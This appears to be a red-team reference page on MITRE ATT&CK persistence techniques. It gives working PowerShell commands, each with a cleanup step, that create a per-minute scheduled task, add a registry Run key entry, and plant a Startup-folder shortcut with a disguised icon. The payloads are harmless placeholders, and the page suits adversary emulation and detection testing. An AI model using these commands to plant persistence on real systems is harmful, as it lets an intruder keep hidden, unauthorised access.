 # TA0003 - Persistence

*- maintaining access.*

## T1053.005 - Scheduled Task/Job: Scheduled Task

| Privileges | Execution Trigger                    |
|------------|--------------------------------------|
| Standard   | Scheduled time if user is logged in. |

- Execute `$cmd` every minute.
    - Attack:
        ```ps1
        $cmd = "PowerShell -WindowStyle Hidden -Command taskschd.msc"
        SCHTASKS /Create /F /SC MINUTE /MO 1 /TN poc /TR $cmd
        ```
    - Cleanup:
        ```ps1
        SCHTASKS /Delete /F /TN poc
        ```

## T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder

| Privileges | Execution Trigger |
|------------|-------------------|
| Standard   | User login.       |

- Execute `$cmd` (via registry run key).
    - Attack:
        ```ps1
        $cmd = "PowerShell -NoExit -Command REG QUERY HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run"
        REG ADD HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc /D $cmd
        ```
    - Cleanup:
        ```ps1
        REG DELETE HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /F /V poc
        ```

- Execute `$cmd` (via startup folder).
    - Attack:
        ```ps1
        $cmd = "Explorer $env:HOMEPATH\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
        $cmds = $cmd -split ' ', 2 ; $lnk = (New-Object -ComObject WScript.Shell).CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk") ; $lnk.TargetPath = $cmds[0] ; $lnk.Arguments = $cmds[1] ; $lnk.IconLocation = "$env:SystemDrive\Windows\System32\wsl.exe" ; $lnk.Save()
        ```
    - Cleanup:
        ```ps1
        Remove-Item -Force -Path "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\poc.lnk"
        ```

## Resources

- [Mitre ATT&CK | Persistence](https://attack.mitre.org/tactics/TA0003/)
- [Red Team Notes | Persistence](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/persistence/)
